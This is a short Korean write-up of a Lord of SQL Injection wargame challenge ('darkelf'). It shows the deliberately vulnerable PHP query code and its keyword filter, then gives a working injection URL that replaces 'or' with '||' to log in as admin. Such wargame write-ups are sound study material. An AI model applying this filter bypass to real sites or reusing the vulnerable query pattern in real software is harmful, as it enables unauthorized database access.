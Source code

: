 Lord of SQL Injection No.6 - darkelf
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
preg_match로 인해 or and가 대소문자 구분없이 $_GET[pw]에 들어가 있으면 HeHe라고 뜨며 문제풀이에 실패하게 된다._
id값은 고정되어 있으므로 pw에 값을 넣어 조작해야한다.
DB에 저장된 id 값이 admin이 되도록 조작하면 문제가 풀린다.

문제 풀이 법
1)or and 우회
or은 기호로 파이프라인 두개와 같고(||) and는 기호로 앤퍼센트 두개와 같다.(&&)

los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=123'|| id='admin'-- -
or이 들어갈 부분을 ||으로 대체
